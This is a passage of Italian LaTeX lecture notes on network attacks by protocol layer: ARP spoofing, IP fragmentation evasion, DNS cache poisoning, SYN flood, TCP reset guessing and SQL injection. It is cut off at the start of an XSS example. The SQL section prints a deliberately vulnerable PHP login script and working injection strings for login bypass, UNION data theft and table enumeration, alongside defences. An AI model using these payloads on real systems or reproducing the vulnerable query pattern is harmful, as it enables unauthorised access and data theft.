\chapter{Attacchi}
Nell'ambito della sicurezza delle reti gli attacchi servono per capire le debolezze di una rete: si effettuano degli auto-attacchi mirati a scoprire le vulnerabilità del nostro sistema. Gli attacchi generalmente si distinguono e sono classificati sulla base del livello dello stack ISO/OSI al quale vengono compiuti. Si parla quindi di attacchi ai livelli bassi ed ai livelli alti della pila ISO/OSI. Più l'attacco è di basso livello, maggiore sarà la sua efficacia.

\section{Attacchi ai livelli bassi della pila ISO/OSI}
In questa sezione parleremo degli attacchi che vengono effettuati ai livelli bassi dello stack ISO/OSI, ossia ai primi tre livelli: fisico, collegamento e rete.

\subsection{Attacchi a livello fisico}
Tra gli attacchi a livello fisico vi sono quelli di tipo DoS (interruzione del collegamento o \textit{Jamming}), attacchi di \textit{Wiretapping}, sniffer hardware e sniffing in reti broadcast. Il jamming sul mezzo fisico si può fare solo se il mezzo lo permette, come nel caso di reti wireless o reti wired con cavi non schermati (si sbuccia fisicamente il cavo ethernet ad esempio). Il jamming risulta quindi molto difficile, ma basterebbe comunque far fallire la ricezione di un bit per invalidare il checksum e far scartare il pacchetto.

\subsection{Attacchi a livello collegamento}
Tra gli attacchi a livello collegamento abbiamo sempre quelli di tipo DoS (\textit{flood} di pacchetti, generazione di collisioni), spoofing (attacco in cui si impiegano delle tecniche per la falsificazione dell'identità) di indirizzi MAC e ARP-Spoofing. Generalmente un flood può essere mirato alla saturazione della banda e, se il mezzo è condiviso, si possono non rispettare i tempi di timeout e creare numerose collisioni, oppure mantenere il canale sempre occupato; un flood può essere banalmente mascherato inviando pacchetti con indirizzo mittente modificato.\\
In un sistema le vulnerabilità possono essere di tre tipi: volontarie, dovute ad un bug o \textit{vulnerability by design}. Il terzo tipo è il caso in cui si sa benissimo che è presente una vulnerabilità, ma non è possibile far niente per risolverla (altrimenti potrebbe non funzionare un protocollo): il protocollo ARP ne è un esempio.\\
Richiamiamo dunque brevemente il funzionamento del protocollo ARP attraverso un esempio. Supponiamo che la macchina 192.168.2.51 voglia raggiungere l'indirizzo 192.168.2.52 appartenente alla stessa sotto-rete; per farlo deve inviare un frame all'indirizzo MAC corrispondente. Nel caso in cui il mittente non conosca l'indirizzo MAC corrispondente, invia una richiesta ARP in broadcast chiedendo che la macchina 192.168.2.52 risponda notificando il proprio indirizzo MAC. La macchina 192.168.2.52 a questo punto risponde con un messaggio di ARP-Reply specificando che l'indirizzo IP 192.168.2.52 corrisponde al proprio indirizzo MAC 00:0a:95:9d:68:16. Di seguito sono riportati alcuni campi di un pacchetto ARP e l'algoritmo utilizzato per aggiornare la tabella ARP di ogni host:
\begin{figure}[htbp]
	\centering
	\begin{tabular}{|c|}
		\hline
		Hardware type (ethernet) \\
		\hline
		Protocol type (IPv4) \\
		\hline
		[$\dots$] \\
		\hline
		Sender hardware address \\
		\hline
		Sender protocol address \\
		\hline
		Receiver hardware address \\
		\hline
		Receiver protocol address \\ \hline
	\end{tabular}
\end{figure}\\
\begin{codebox}
\Procname{$\proc{ARP-Table-Update}$}
\li \If I have that \texttt{hardware type} (almost definitely)
\li \Then \If I speak that \texttt{protocol}
\li \Then \If The pair \texttt{<protocol type, sender protocol address>} is already in my translation table
\li \Then Update the \texttt{sender hardware address} field of the entry with the new information
\li in the packet and set \texttt{merge\_flag} to \texttt{true}.
\li \If I am the target protocol address
\li \Then [$\dots$] \End \End \End \End
\end{codebox}
La tabella ARP viene quindi aggiornata anche senza aver fatto alcuna richiesta: l'attacco di ARP-spoofing sfrutta proprio questa vulnerabilità (by design). Lo scopo di un attacco di ARP-spoofing è quello di intercettare il traffico che passa tra due macchine collegate attraverso una rete con switch. In particolare l'attaccante fa parte della rete ma non è nel percorso tra le due macchine sulle quali compiere l'attacco; il suo obiettivo è quello di far credere al destinatario di avere l'indirizzo del mittente vero.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.5]{images/ARP-spoofing}
	\caption{Esempio di rete connessa da uno switch.}
	\label{img:ARP-spoofing}
\end{figure}\\
Si consideri la rete rappresentata in Figura \ref{img:ARP-spoofing}. Eve manda messaggi ARP-Reply diretti all'indirizzo MAC di Alice, dichiarando che l'IP di Bob corrisponde al suo indirizzo MAC; sempre Eve manda anche messaggi ARP-Reply diretti all'indirizzo MAC di Bob, dichiarando che l'IP di Alice corrisponde al suo indirizzo MAC. Dunque, quando Alice vorrà inviare un pacchetto TCP SYN a Bob, l'IP sarà quello di Bob ma il MAC sarà quello di Eve, dunque il pacchetto sarà ricevuto da Eve che a sua volta lo manderà a Bob.\\
Il protocollo ARP può essere reso più sicuro rispetto all'ARP-spoofing semplicemente adottando il protocollo \textbf{SARP} (Secure ARP), ma si perdono alcune funzionalità dell'ARP (tra cui quella di UPnP). Per combattere dunque questo tipo di attacco è necessario agire direttamente sui componenti sui quali transitano gli attacchi, in questo caso lo switch: esso vede infatti transitare, in caso di attacco, pacchetti ARP con MAC diverso, IP uguale, ma \textit{contemporaneamente su porte diverse}. In alcuni switch intelligenti è possibile specificare le porte sulle quali ci si aspetta un ARP-Reply-Solicited. In genere questo tipo di attacco non viene bloccato, viene mandato semplicemente un allarme al network administrator.

\subsection{Attacchi a livello rete}
Tra gli attacchi a livello rete vi sono sempre quelli di tipo DoS (flood di pacchetti, smurf), covert channels, fragmentation attacks, source routing e spoofing di indirizzi IP (DNS poisoning). Nel seguito vedremo i fragmentation attacks ed il DNS poisoning.

Come noto, il protocollo IP permette di spezzare un pacchetto in più frammenti nel caso in cui questo debba attraversare delle sotto-reti con MTU (Maximum Transmission Unit) minore della lunghezza del pacchetto stesso. Di seguito, nelle Figure \ref{bf:IP-header} e \ref{bf:TCP-header}, sono riportati gli header dei pacchetti IP e TCP.

\begin{figure}[htbp]
	\centering
	\begin{bytefield}{32}
		\bitheader[lsb=0]{3,7,15,18,31} \\
		\bitbox{4}{Vers} & \bitbox{4}{IHL} & \bitbox{8}{TOS} & \bitbox{16}{Total Length} \\
		\bitbox{16}{Identification} & \bitbox{3}{Flg} & \bitbox{13}{Fragment Offset} \\
		\bitbox{8}{TTL} & \bitbox{8}{Protocol} & \bitbox{16}{Header Checksum} \\
		\bitbox{32}{Source IP} \\
		\bitbox{32}{Destination IP} \\
		\bitbox{32}{Options + Padding}
	\end{bytefield}
	\caption{Header di un pacchetto IP.}
	\label{bf:IP-header}
\end{figure}
\begin{figure}[htbp]
	\centering
	\begin{bytefield}{32}
		\bitheader[lsb=0]{3,7,15, 31} \\
		\bitbox{16}{Source Port} & \bitbox{16}{Destination Port} \\
		\bitbox{32}{Sequence Number} \\
		\bitbox{32}{Acknowledgement Number} \\
		\bitbox{4}{Offset} & \bitbox{4}{RES} & \bitbox{8}{Flags} & \bitbox{16}{Window} \\
		\bitbox{16}{Checksum} & \bitbox{16}{Urgent Pointer} \\
		\bitbox{32}{Options + Padding}
	\end{bytefield}
	\caption{Header di un pacchetto TCP.}
	\label{bf:TCP-header}
\end{figure}
\noindent
Nel pacchetto IP di partenza (intero) vi sono: l'header IP, l'header TCP ed il payload. La tecnica di \textbf{tiny fragments attack} prevede di frammentare l'intero blocco in modo tale che nella prima parte rientrino l'header IP ed i primi 8 byte dell'header TCP (fino al Sequence Number compreso). I firewall normalmente vengono configurati per bloccare i tentativi di connessione dall'esterno della rete verso le porte alte (oltre la 1024) dei server, ma devono però lasciare passare i pacchetti rivolti verso porte alte che fanno parte di una connessione aperta dall'interno della rete verso l'esterno. Dunque per bloccare i tentativi di aprire una connessione verso l'interno vengono filtrati i pacchetti con il flag SYN del protocollo TCP settato ad 1 (pacchetti di inizio connessione). Utilizzando un primo frammento che non contiene i flag TCP, il firewall lascia passare il frammento anche se diretto verso una porta superiore a 1024 ed il secondo frammento non viene interpretato come un pacchetto TCP a causa della mancanza di un header TCP valido, quindi non viene filtrato. Così facendo tutti i frammenti superano il firewall. Quando i frammenti arrivano alla macchina di destinazione vengono riassemblati ricomponendo il pacchetto originale e questo è diretto verso una porta maggiore di 1024 ed ha flag $\text{SYN}=1$. Molti firewall aspettano di ricostruire tutti i frammenti prima di decidere se filtrare un pacchetto, per evitare attacchi di questo tipo, non rispettando tuttavia lo standard.

La tecnica di \textbf{overlapping fragments attack} è invece ideata in modo diverso: in questo caso i frammenti sono sovrapposti ed il secondo frammento riscrive alcuni dati del primo.

\begin{figure}[htbp]
	\centering
	\begin{bytefield}{32}
		\begin{rightwordgroup}{Pacc. originale}
			\bitbox{8}{IP} & \bitbox{8}{TCP} & \bitbox{16}{Payload}
		\end{rightwordgroup} \\
	\end{bytefield}
	\begin{bytefield}{32}
		\begin{rightwordgroup}{1$^\circ$ Frammento}
			\bitbox{8}{IP} & \bitbox{8}{TCP} & \bitbox{6}{Payload} & \bitbox{10}{\rule{\width}{\height}}
		\end{rightwordgroup} \\
	\end{bytefield}
	\begin{bytefield}{32}
		\begin{rightwordgroup}{2$^\circ$ Frammento}
			\bitbox{8}{IP} & \bitbox{2}{\rule{\width}{\height}} & \bitbox{6}{TCP} & \bitbox{16}{Payload}
		\end{rightwordgroup} \\
	\end{bytefield}
\end{figure}
\noindent
Il primo frammento contiene una porta destinazione superiore a 1024 ma il flag $\text{SYN}=0$, quindi il firewall non lo filtra. Il secondo frammento non contiene un header TCP valido quindi non viene filtrato, ma va a riscrivere una parte dell'header TCP. In particolare corregge il flag: $\text{SYN}=1$. Quando arrivano a destinazione i frammenti vengono ricomposti e il secondo sovrascrive il primo, componendo un pacchetto TCP valido con porta destinazione superiore a 1024 e $\text{SYN}=1$.

Si tenga comunque presente che con IPv6 la grandezza $\text{dell'MTU}=1280$ byte per tutta la rete, dunque l'header non può essere frammentato. In generale il pacchetto viene comunque frammentato per la trasmissione, ma la dimensione minima di frammentazione è superiore alla dimensione dell'header, dunque anche i router e tutta l'infrastruttura attraverso la quale i pacchetti transitano non possono dividere i pacchetti in frammenti inferiori a 1280 byte.

Vediamo adesso un altro attacco a livello rete: \textbf{DNS poisoning}. Ogni host deve poter risolvere un indirizzo di rete cioè mappare una stringa alfanumerica (un dominio) in un indirizzo IP. Questa operazione viene svolta attraverso il protocollo \textit{DNS} (Domain Name System). Per ogni dominio in rete, esiste un server che può svolgere questo compito in modo \textit{authoritative}; l'indirizzo di un server \textit{authoritative} non è noto per ogni dominio a priori, quindi in genere ogni host è configurato con un indirizzo di un server DNS locale. Il server DNS locale richiederà a sua volta a dei root server l'indirizzo dei DNS validi per un certo dominio e una volta realizzata la risoluzione nome/IP, il DNS locale mantiene l'associazione in una cache per un certo periodo. Il funzionamento è schematizzato in Figura \ref{img:DNS}.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.5]{images/DNS}
	\caption{Funzionamento gerarchico dei DNS.}
	\label{img:DNS}
\end{figure}
\noindent
In generale un attacco ad un DNS serve a far credere ad un certo host vittima che l'IP che corrisponde ad un nome di dominio sia un IP diverso da quello originale. Il protocollo DNS non utilizza forme di cifratura per proteggere i pacchetti, quindi le risposte di un DNS server possono essere facilmente falsificabili. Un attacco di questo genere serve per: il phishing, il furto di credenziali, attacchi su home-banking, redirezionamento di connessioni e Man-In-The-Middle (MITM) in generale. L'attacco può essere realizzato benissimo nella rete locale, nella richiesta da/verso il server DNS locale e nella richiesta da/verso uno dei server authoritative.\\
Abbiamo già visto come è possibile realizzare a livello collegamento attacchi di tipo MITM su varie tecnologie come ad esempio ARP-spoofing per reti ethernet e attacchi sulle chiavi WEP per reti WiFi. Non è dunque sorprendente  immaginare che lo stesso attacco possa essere utilizzato per modificare i pacchetti di DHCP (assegnando ad un nodo della rete un nuovo indirizzo del server DHCP, controllato dall'attaccante) e DNS responses (modificando i pacchetti che arrivano dal server DNS). Se l'attaccante è nel path tra il server DNS locale e quello remoto (on-path) l'attacco è banale (è sufficiente rispondere al posto del DNS), altrimenti (off-path) l'attaccante deve poter rispondere ad una richiesta DNS prima del server remoto pertinente (praticamente impossibile) o inserire una \textit{entry} (corrispondenza) nel local DNS. In Figura \ref{img:DNS-attack} è riportato uno schema di attacco. I principali campi di un pacchetto DNS che devono essere modificati sono: la porta UDP origine e destinazione, l'IP di origine e destinazione, e l'ID del pacchetto, ossia un numero scelto a caso da chi invia la richiesta, che deve essere replicato nella risposta.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.5]{images/DNS-attack}
	\caption{Schema di un attacco a DNS.}
	\label{img:DNS-attack}
\end{figure}
\noindent
Lo scopo dell'attaccante è quindi quello di riuscire ad \textit{inquinare la cache del server DNS locale}, ovvero di rispondere al posto del server DNS remoto. Per farlo, nel momento in cui il server DNS locale invia una richiesta per un dominio remoto, l'attaccante deve rispondere con un pacchetto forgiato che contenga le caratteristiche giuste:
\begin{itemize}
	\item Indirizzo IP sorgente $\longrightarrow$ quello del server remoto (prevedibile)
	\item Porta UDP sorgente $\longrightarrow$ quella del server remoto (53)
	\item Indirizzo IP destinazione $\longrightarrow$ quello del server locale (prevedibile)
	\item Porta UDP destinazione $\longrightarrow$ quella usata dal server locale per inviare la richiesta (non prevedibile)
	\item ID del pacchetto $\longrightarrow$ quello del pacchetto di richiesta (non prevedibile)
\end{itemize}
Ci sono quindi due campi, entrambi di 16 bit (porta e ID) che potrebbero essere non prevedibili dall'attaccante. Abbiamo dunque 32 bit incogniti che si traducono in $2^{32} \simeq 4$ miliardi di possibili combinazioni, ossia di pacchetti. L'attaccante, ammesso che sappia il momento in cui deve inviare la risposta fasulla, deve inviare prima del server remoto mediamente 2 miliardi di pacchetti; se ogni pacchetto è lungo 80 byte, l'attaccante deve inviare 160 GB di traffico prima che il server remoto possa rispondere. L'attacco quindi non sembrerebbe possibile.\\
Devono però essere fatte delle osservazioni sulle ipotesi formulate sinora. Alcuni server DNS non utilizzano una porta casuale per inviare le richieste: il bind sceglie una porta all'avvio e continua ad usarla anche in seguito. Dunque, una volta scoperta la porta, i bit incogniti sono 16, ossia passiamo da $2^{32}$ a $2^{16}$ possibili combinazioni, che sono comunque 65000 $\cdot$ 80 $\simeq 5$ MB da inviare in poche decine di millisecondi.\\
Immaginiamo inoltre che l'attaccante (Eve) possa far iniziare la richiesta al server DNS (o è all'interno della rete, oppure il server DNS (Alice) accetta anche richieste dall'esterno). A questo punto l'attaccante sa quando avverrà la richiesta:
\begin{itemize}
	\item Eve invia ad Alice una richiesta per il dominio \url{www.example.com}
	\item Alice reinvia la richiesta al server DNS di \url{www.example.com} (Bob)
	\item Eve prova a rispondere prima di Bob, con un flood di $n$ risposte fasulle
\end{itemize}
La probabilità di successo è pari a $n/2^{16}$, ammesso che il server DNS riesca ad elaborare tutte le risposte forgiate; a questo scopo, però, ci può venire incontro il paradosso del compleanno.\\
Date $n$ persone, qual è la probabilità $P(n)$ che tra queste ve ne siano due nate nello stesso giorno? Per calcolare questo valore si calcola la probabilità inversa $\bar{P}(n)$, ossia la probabilità che su $n$ persone nessuna sia nata lo stesso giorno:
$$\bar{P}(n) = \frac{364}{365}\cdot\frac{363}{365}\cdot\frac{362}{365}\;\ldots\;\frac{365-(n-1)}{365},$$
da cui
$$P(n) = 1-\bar{P}(n) = 1-\prod_{i=1}^{n-1}\frac{365-i}{365}.$$
Abbastanza sorprendentemente, anche per valori di $n$ non troppo alti si ottengono delle probabilità abbastanza elevate:
\begin{itemize}
	\item Per $n=23 \Longrightarrow P(n) \simeq 51\%$
	\item Per $n=30 \Longrightarrow P(n) \simeq 70\%$
	\item Per $n=40 \Longrightarrow P(n) \simeq 97\%$
\end{itemize}
Vediamo come applicare questo paradosso all'attacco di DNS poisoning. Nel caso in cui Eve faccia $n$ richieste per l'host \url{www.example.com}, Alice genererà un ID a caso tra 0 e $2^{16}$ per ognuna delle richieste verso Bob; Alice interromperà
l'invio delle richieste quando riceverà almeno una risposta valida. Contemporaneamente Eve invierà un burst di risposte falsificate, con un ID scelto a caso. Se l'ID di almeno una di queste risposte false corrisponde all'ID di almeno una delle richieste inviate (e viene ricevuta prima di quella di Bob), allora Alice avrà nella cache una entry per \url{www.example.com}. Statisticamente, per il paradosso del compleanno, inviando 700 richieste/risposte si ha una probabilità vicina al 100\% di indovinare almeno una risposta, dunque non occorrono moltissimi tentativi. In questo modo la cache rimane inquinata e tutte le richieste successive verranno redirette verso l'host controllato da Eve.

Concludendo, fare poisoning di un server DNS è possibile in linea teorica, ma molto difficile in pratica, dal momento che dovremmo avere a che fare con un server DNS configurato molto male. Sotto opportune ipotesi però l'attacco è perfettamente realizzabile con dei mezzi a disposizione di chiunque e può essere reso più facile se il server DNS originario (Bob) è sotto un attacco di DoS, quindi non risponde prontamente. Un attacco di DNS poisoning è facilmente rilevabile attraverso monitoring, guardando la provenienza delle risposte a richieste fittizie. Per evitare che l'attacco sia applicabile è quindi importante scegliere bene gli applicativi che si usano, avendo la certezza, ad esempio, che utilizzino porte sorgenti casuali oppure che la comunicazione tra DNS locale ed autoritativo sia resa sicura (Secure DNS -- SDNS).

\section{Attacchi ai livelli alti della pila ISO/OSI}
Gli attacchi mirati al livello 4 o superiori della pila ISO/OSI, detti anche \textit{end-to-end}, sono dovuti a problemi legati all'implementazione (e non progettazione) dei protocolli.

\subsection{Attacchi a livello trasporto}
Tra gli attacchi a livello trasporto abbiamo sempre quelli di tipo DoS (SYN flood, TCP reset guess) e SYN-spoofing.

Il \textit{SYN flood} prevede inizialmente la ricerca delle porte aperte del TCP host da attaccare e successivamente l'invio di richieste con $\text{SYN}=1$. A questo punto l'host alloca le risorse di memoria per gestire la connessione che sta per essere creata ed invia un pacchetto con i flag $\text{SYN}=1$, $\text{ACK}=1$ (detto SYN/ACK) ed avvia un timeout (di qualche decina di secondi, al termine del quale vengono deallocate le risorse) per attendere l'arrivo del terzo pacchetto dell'handshake: in questo momento si dice che sul server vi è una connessione \textit{half-open}. Se un attaccante invia un grande numero di pacchetti con $\text{SYN}=1$ e indirizzi IP mittente falsi, prima o poi la memoria del server si saturerà ed inizierà a scartare pacchetti; in questo modo si impedisce ad altre macchine di accedere al servizio.\\
In linea generale non esistono rimedi comunemente accettati per gli attacchi di SYN flood, con poca banda a disposizione si possono raggiungere i limiti di memoria di un server. Un metodo per evitare questo attacco prevede l'utilizzo di \textit{SYN cookies}. In pratica, quando viene inviato il pacchetto con i flag $\text{SYN}=1$, $\text{ACK}=1$ non viene scelto un numero di sequenza casuale, ma un numero che rappresenta la codifica di informazioni riguardanti la connessione ed inoltre non viene allocata memoria. Quando viene ricevuto il terzo pacchetto del three-way handshake, questo contiene l'ACK inviato, da cui si riestraggono le informazioni codificate: solo a questo punto la connessione viene aperta e le risorse allocate. Il numero di sequenza deve essere comunque impredicibile, altrimenti si rischiano attacchi di \textit{SYN spoofing}. Tuttavia questo serve solo a mitigare il SYN flood: l'attaccante potrebbe pensare di completare il three-way handshake. Un'alternativa potrebbe essere quella di non accettare tante richieste dallo stesso indirizzo IP, ma anche questo si rivela poco utile dal momento che l'attaccante potrebbe effettuare il SYN flood da un set di host oppure pensare di forgiare i pacchetti ad-hoc con IP diversi.\\
Un'altra idea di attacco può essere quella del \textit{TCP reset guess}. Una connessione TCP può essere terminata da uno dei due partecipanti inviando un pacchetto con il flag $\text{RST}=1$ ($\text{FIN}=1$). Affinché il pacchetto venga accettato, questo deve contenere i valori corretti di IP mittente e destinazione, porta TCP mittente e destinazione, numero di sequenza corretto all'interno del flusso. Un'attaccante che vorrebbe interrompere una connessione tra due macchine remote deve conoscere gli IP, può indovinare le porte (una è nota, l'altra predicibile), ma non può conoscere il numero di sequenza corretto: deve provare un \textit{brute force}, ma facciamo qualche conto. Il numero di sequenza è un campo di 32 bit, quindi la combinazione corretta è una delle possibili $2^{32} \simeq 4\;294\;967\;295$ combinazioni; avendo a disposizione un modem 56k ci vorrebbero circa 24 542 670 secondi, ovvero 284 giorni. Il protocollo TCP però impone che per essere ricevuto correttamente, un pacchetto di reset deve semplicemente cascare nella finestra di numeri di sequenza che la macchina mantiene attivi. Una TCP \textit{window} può essere larga fino a $2^{16}$ bit. Non vi è quindi bisogno di provare tutti i numeri di sequenza, ma provando con numeri di sequenza distanti non più di $2^{16}$ si è ragionevolmente sicuri di riuscire ad interrompere la connessione. Otteniamo che le possibili combinazioni vengono ridotte: $2^{32}/2^{16} = 2^{16} = 65\;535$. Avendo a disposizione un modem 56k ci vogliono circa 374 secondi, ovvero 6 minuti. Nella Tabella \ref{tab:TCP-reset-guess} sono mostrati alcuni tempi di reset.
\begin{table*}[t!]
	\centering
	\begin{tabular}{cccc}
		\toprule[0.5ex]
		\textbf{Velocità} & \textbf{Numero di Pacchetti} & \textbf{Tempo per una porta} & \textbf{Tempo per 50 porte}\\
		\midrule
		56 kbps (dialup) & 65 537 (* 50) & 374 secondi (6 min.) & 18 700 (5.2 ore)\\
		80 kbps (DSL) & 65 537 (* 50) & 262 secondi (4.3 min.) & 13 107 (3.6 ore)\\
		256 kbps (DSL) & 65 537 (* 50) & 81 secondi (1 min.) & 4 050 (1.1 ore)\\
		1.54 kbps (T1) & 65 537 (* 50) & 13.6 secondi & 680 (11 minuti)\\
		45 Mbps (DS3) & 65 537 (* 50) & 1/2 secondo & 25 secondi\\
		155 Mbps (OC3) & 65 537 (* 50) & 1/10 secondo & 5 secondi\\
		\bottomrule[0.5ex]
	\end{tabular}
	\caption{Tempi di reset di una connessione con finestra larga 16 bit.}
	\label{tab:TCP-reset-guess}
\end{table*}

Per cercare di ovviare a questo problema è possibile utilizzare IPsec per cifrare l'header o disabilitare il campo \textit{window scaling} (estensione di TCP che serve ad aumentare/diminuire la dimensione della finestra -- l'attaccante ha dunque possibilità di scelta). Il risultato è una connessione lenta, ma più sicura.

\subsection{Attacchi al middleware}
Per \textit{middleware} si intende tutto quel codice che sta nel mezzo tra la richiesta che fa un browser e la presentazione di una pagina HTML di risposta, ossia tutto quel software interponibile tra due layer che non varia in alcun modo nessuno dei due, agendo quindi in modo trasparente. Software di questo tipo (CGI -- Common Gateway Interface) scritti in qualsiasi linguaggio, script PHP, Python, Ruby, ASP, sono tutti esempi di \textit{middleware}. Negli ultimi anni le pagine web si sono molto complicate (si parla di applicativi web) e gli script compiono operazioni sempre più delicate. Molti attacchi presenti in letteratura hanno a che vedere con la \textit{validazione dei dati}, ovvero con quelle tecniche che devono essere utilizzate dal programmatore per evitare che un utente possa inserire nelle chiamate HTTP dati estranei a quelli desiderati. Vediamo quindi un paio di esempi di attacchi al middleware basati su errori di \textit{data validation} o \textit{input validation}.

\subsubsection{SQL Injection}
Si consideri un semplice form in HTML avente il seguente codice:
\begin{lstlisting}[language=html]
<html>
	<form action="retrieve.php" method="get">
		User: <input type="text" name="user">
		<br>
		Password: <input type="text" name="pass">
		<input type="submit" value="entra">
	</form>
</html>
\end{lstlisting}
Lo script in PHP che esegue fa il parsing degli input è il seguente:
\begin{lstlisting}[language=php]
<?php
	$link = mysql_connect('localhost', 'prova');
	mysql_select_db('sql_inject');
	
	$user = $_GET['user'];
	$password = $_GET['pass'];
	
	$result = mysql_query("SELECT secret FROM userdb WHERE
				user='$user' AND password='$password'");
	$row = mysql_fetch_assoc($result);
	echo $user."\' Secret is: ". $row['secret']. "\n";
?>
\end{lstlisting}
Una prima cosa che si osserva è che i parametri vengono passati attraverso GET: è buona norma utilizzarla quando non deve essere variato lo stato delle risorse, si usa invece POST nel caso opposto. La query viene fatta al database MySQL \texttt{userdb} avente questa forma:
\begin{figure}[htbp]
	\centering
	\begin{tabular}{|c|c|c|}
		\hline
		\textbf{User} & \textbf{Password} & \textbf{Secret} \\
		\hline
		Alice & 321 & 2131 \\
		\hline
		Bob & 123 & 2sd1 \\
		\hline
		$\dots$ & $\dots$ & $\dots$ \\
		\hline
	\end{tabular}
\end{figure}\\
Quello che ci interessa di più è la query che PHP fa verso il database MySQL; se utilizziamo \texttt{user=Alice} e \texttt{password='}, la query diventa
\begin{lstlisting}[language=sql]
"SELECT secret FROM userdb WHERE user ='Alice' AND password ='"
\end{lstlisting}
A questo punto MySQL trova un \texttt{'} di troppo e segnala errore, perché non riesce ad interpretare il testo della stringa. Questo errore può essere tuttavia sfruttato: se utilizziamo \texttt{user=Alice} e \texttt{password=' OR user=' Alice}, la query diventa
\begin{lstlisting}[language=sql]
"SELECT secret FROM userdb WHERE user ='Alice' AND password =" OR user='Alice'
\end{lstlisting}
A questo punto la stringa è \textit{corretta} e significa: restituisci dalla tabella \texttt{userdb} la colonna per cui (user=Alice e password=") \textit{oppure} user=Alice; la prima parte della query fallisce, ma la seconda restituisce il contenuto della colonna \texttt{secret} \textit{senza controllare la password}. In questo esempio è tuttavia necessario sapere come è composta la query e non sempre questo è noto. Utilizzando il commento \texttt{--} si possono escludere delle parti di query di cui non si conosce il contenuto; in questo caso basta porre \texttt{user=Alice';--} per ottenere la query
\begin{lstlisting}[language=sql]
"SELECT secret FROM userdb WHERE user ='Alice';--and password="
\end{lstlisting}
Così facendo tutta la parte della query dopo il simbolo \texttt{--} non viene considerata. Nel caso in cui ci fossero altre tabelle nel DB è possibile utilizzare query più complicate per riuscire ad accedere anche a queste. Se sappiamo ad esempio che esiste una tabella \texttt{houses} come questa
\begin{figure}[htbp]
	\centering
	\begin{tabular}{|c|c|c|}
		\hline
		\textbf{Owner} & \textbf{Number} & \textbf{Value} \\
		\hline
		Bob & 1 & 1 000 000 \\
		\hline
		Alice & 3 & 9 000 000 \\
		\hline
		$\dots$ & $\dots$ & $\dots$ \\
		\hline
	\end{tabular}
\end{figure}\\
utilizzando il comando \texttt{UNION} è possibile effettuare query su tabelle diverse. Infatti, ponendo \texttt{user=' UNION SELECT value FROM houses WHERE owner=Alice;-- }, la query diventa
\begin{lstlisting}[language=sql,basicstyle=\scriptsize\ttfamily]
"SELECT secret FROM userdb WHERE user =' UNION SELECT value FROM houses WHERE owner=Alice;-- "
\end{lstlisting}
La prima parte della query fallisce, ma la seconda parte effettua una richiesta su una seconda tabella e viene restituito il risultato. Come ultima cosa vediamo come fare per sapere se vi sono altre tabelle; di seguito sono riportati i valori che \texttt{user} dovrebbe assumere per questo scopo:
\begin{lstlisting}[language=sql]
user=' union SELECT COUNT(*) FROM sqlite_master WHERE type='table';--
user=' union SELECT name FROM sqlite_master WHERE type='table' LIMIT 1;--
user=' union SELECT name FROM sqlite_master WHERE type='table' LIMIT 1 OFFSET 1;--
user=' union SELECT sql FROM sqlite_master WHERE name='houses';--
\end{lstlisting}
Vediamo però adesso come è possibile ovviare a questo attacco. La prima cosa da notare è che le versioni più vecchie dei Webserver non effettuano alcun parsing sulle stringhe che si inseriscono nelle query; oggi, volendo, si possono inserire dei controlli sulle stringhe prima che queste vengano inserite nella query. L'idea potrebbe essere ad esempio quella di vietare i caratteri speciali in input (fare cioè, più in generale, una \textit{input validation}) e, ancor prima, andrebbe nascosta la visione del filesystem (gerarchia di file e cartelle del server) a chiunque (esterno) acceda. È possibile infatti che un attaccante possa vedere anche i files php presenti e dunque attaccare sulla base del loro contenuto. All'atto pratico, in Linux ad esempio, dovrebbe essere modificato il file \texttt{/etc/php5/apache2/php.ini} come segue:
\begin{lstlisting}[language=bash]
; Magic quotes
; Magic quotes for incoming GET/POST/Cookie data.
magic_quotes_gpc = Off
; Magic quotes for runtime-generated data
magic_quotes_runtime = Off
; Use Sybase-style magic quotes
; (escape ' with '' instead of \').
magic_quotes_sybase = Off
\end{lstlisting}
Dovrebbero inoltre essere utilizzati statements di questo genere:
\begin{lstlisting}[language=sql]
$db_connection = new mysqli("localhost",
	"user", "pass", "db");
$statement = $db_connection->prepare("
	SELECT campo FROM tabella WHERE id = ?");
$statement->bind_param("i", $id);
$statement->execute();
\end{lstlisting}
Si noti che il problema delle injection non si verifica solo con PHP+MySQL, ma con qualsiasi altro linguaggio di interfaccia verso un qualsiasi altro database: ASP, Python, Ruby, Postgres, Oracle, $\dots$

\subsubsection{Cross-Site-Scripting (XSS)}
Un XSS è un attacco basato sulla possibilità di inserire del codice malizioso in pagine web esterne ritenute affidabili dagli utenti, in modo che questi, quando si collegano a tali pagine, vengano indotti ad eseguirlo. L'attacco può essere \textit{stored}, cioè il codice persiste stabilmente nella pagina web (è la variante più devastante di XSS), o \textit{reflected}, cioè il codice viene usato immediatamente dallo script lato server per costruire le pagine risultanti. Si consideri, a scopo illustrativo, un semplice form in HTML come il seguente:
\begin{lstlisting}[language=html]
<html>
	<form action="check.php" method="get">
		Scrivi qualcosa :
